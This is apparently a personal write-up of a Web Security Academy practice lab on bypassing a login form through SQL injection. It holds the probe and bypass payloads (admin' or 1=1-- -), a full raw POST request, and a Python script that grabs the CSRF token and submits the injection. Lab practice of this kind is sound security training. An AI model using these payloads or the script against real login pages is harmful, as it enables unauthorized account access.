



# Subverting application logic

URL: https://0a3d00d804c0aed280d3178f005300e4.web-security-academy.net/

## Sitemap:

URL: https://0af500970360358b80e0d1c1009300af.web-security-academy.net/login


## SQL Injection:

URL: https://0af500970360358b80e0d1c1009300af.web-security-academy.net/login

Payload:

```
csrf=FVKK1DBfNR4AjQQpNa20KCZW2DIiarGv&username=admin&password=admin'
```



## Exploitation:

Payload:

```bash
csrf=FVKK1DBfNR4AjQQpNa20KCZW2DIiarGv&username=admin&password=admin'+or+1%3d1--+-
```



Request:

```bash
POST /login HTTP/2
Host: 0af500970360358b80e0d1c1009300af.web-security-academy.net
Cookie: session=z9adUDk2Vz5dyebaNHMoNoo55f84IEDe
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 81
Origin: https://0af500970360358b80e0d1c1009300af.web-security-academy.net
Referer: https://0af500970360358b80e0d1c1009300af.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

csrf=FVKK1DBfNR4AjQQpNa20KCZW2DIiarGv&username=admin&password=admin'+or+1%3d1--+-
```

## Automation:

```python
#!/usr/bin/python3
##
import requests
import re
import pwn
from bs4 import BeautifulSoup
##
def get_csrf(req):
    s=BeautifulSoup(req.text,'html.parser')
    csrf_temp=s.find_all("input")
    csrf=""
    for X in csrf_temp:
        if "csrf" in str(X):
            csrf=X["value"]
    print(csrf)
    return csrf
#
def main(URL):
    req=requests.get(URL+"login")
    csrf=get_csrf(req)
    session=str(req.headers.get("Set-Cookie")).split(';')[0]
    print(session)
    Payload={"csrf":csrf,
             "username":"admin",
             "password":"admin' or 1=1-- -"}
    r=requests.post(f"{URL}login",data=Payload,headers={"Cookie":session})
    print(r.status_code)
    print(r.request.headers)
#
main('https://0af500970360358b80e0d1c1009300af.web-security-academy.net/')
```
